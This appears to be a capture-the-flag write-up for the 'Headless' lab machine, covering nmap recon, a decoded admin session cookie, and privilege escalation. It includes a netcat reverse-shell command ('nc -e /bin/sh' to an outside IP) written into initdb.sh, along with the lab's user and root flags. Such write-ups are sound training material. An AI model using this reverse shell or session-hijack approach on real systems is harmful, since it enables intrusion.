 ```yaml
---
{"dg-publish":true,"permalink":"/boxer/headless/"}
---
```


## Writeup
1. Initial Recon

``` 
sudo nmap -sT -v 10.10.11.8
```
![Pasted image 20240701122559.png](/img/user/Sources/Pasted%20image%2020240701122559.png)

2. Enumeration
```
sudo nmap -sT -A -Pn -sV 10.10.11.8
```
![Pasted image 20240701122724.png](/img/user/Sources/Pasted%20image%2020240701122724.png)

![Pasted image 20240701122750.png](/img/user/Sources/Pasted%20image%2020240701122750.png)

![Pasted image 20240701122838.png](/img/user/Sources/Pasted%20image%2020240701122838.png)


- Since the host was initially unreachable we include in local hosts list to try and access it.
```
sudo nano /etc/hosts
```

- As we have enumerated two ports are open we will try to use port 5000 to possibly access the web application
![Pasted image 20240701130649.png](/img/user/Sources/Pasted%20image%2020240701130649.png)

- As the web app is now accessible we try to explore the application
![Pasted image 20240701130737.png](/img/user/Sources/Pasted%20image%2020240701130737.png)

- We can't find around a lot of information so we try to bust directories to identify if we can excavate something interesting, we discover /dashboard is one of the directories that's present and try to explore it
![Pasted image 20240701130844.png](/img/user/Sources/Pasted%20image%2020240701130844.png)

![Pasted image 20240701130951.png](/img/user/Sources/Pasted%20image%2020240701130951.png)

- Since we are unable to access currently we will now look for methods to access it.

3. Gaining Access and Exploitation
- As we navigate through the web application we find a page with form and upload fields

```python
python3 -m http.server 8009
```

![Pasted image 20240701131957.png](/img/user/Sources/Pasted%20image%2020240701131957.png)

![Pasted image 20240701132111.png](/img/user/Sources/Pasted%20image%2020240701132111.png)

![Pasted image 20240701133824.png](/img/user/Sources/Pasted%20image%2020240701133824.png)

![Pasted image 20240701133735.png](/img/user/Sources/Pasted%20image%2020240701133735.png)

```
echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```


![Pasted image 20240701134831.png](/img/user/Sources/Pasted%20image%2020240701134831.png)

![Pasted image 20240701135237.png](/img/user/Sources/Pasted%20image%2020240701135237.png)

![Pasted image 20240701135426.png](/img/user/Sources/Pasted%20image%2020240701135426.png)

![Pasted image 20240701135819.png](/img/user/Sources/Pasted%20image%2020240701135819.png)

![Pasted image 20240701141036.png](/img/user/Sources/Pasted%20image%2020240701141036.png)

![Pasted image 20240701141056.png](/img/user/Sources/Pasted%20image%2020240701141056.png)

- 


4. Maintaining access and Extracting outputs

- Now we have gained access so let's extract the details using the shell and as we go through it we have our user flag

```
-bash-5.1$ whoami
dev
-bash-5.1$ ls
apps  user.txt
-bash-5.1$ 
-bash-5.1$ cat user.txt 

```
![Pasted image 20240701141412.png](/img/user/Sources/Pasted%20image%2020240701141412.png)

```
Flag user: 6a6ef74c6826ef1412e987d6653abc03
```

- Now we need to attempt a possible privilege escalation in order to obtain root flag. Let's explore this shell further, maybe there are hidden directories so we can try listing using ls -la command
![Pasted image 20240702065940.png](/img/user/Sources/Pasted%20image%2020240702065940.png)

```
dvir@headless:~/app$ echo "nc -e /bin/sh 10.10.14.55 1212" > initdb.sh
echo "nc -e /bin/sh 10.10.14.55 1212" > initdb.sh
dvir@headless:~/app$ 

dvir@headless:~/app$ chmod +x initdb.sh
chmod +x initdb.sh
dvir@headless:~/app$ 
```
- We found a git directory it is time to go git busting let's see if we can extract some details. We found an interesting branch while going through the logs
![Pasted image 20240702070143.png](/img/user/Sources/Pasted%20image%2020240702070143.png)



- Now let's switch to this branch to see if there is something interesting in it and we have obtained production credentials


- Let's try gaining access to this shell using SSH and we successfully do so as shown below


- We tried exploring it and we obtained info that a python3 can be executed using root for this user


- Since python is something we can use so we try listing installed libraries using pip and explore whether there is a suspicious or vulnerable library
- We find GitPython library version is vulnerable 


- So we go ahead and search for a potential POC payload to exploit it and do find one which we use to extract the root flag as follows:


- We tried obtaining shell and writing output to /tmp/root dir to extract root flag
![Pasted image 20240702065658.png](/img/user/Sources/Pasted%20image%2020240702065658.png)

- WE DO OBTAIN THE ROOT FLAG!

```
Flag root: 8a2fc2c1fafbf839a8803138f3dc4e8c
```

5. We have officially pwned the box!
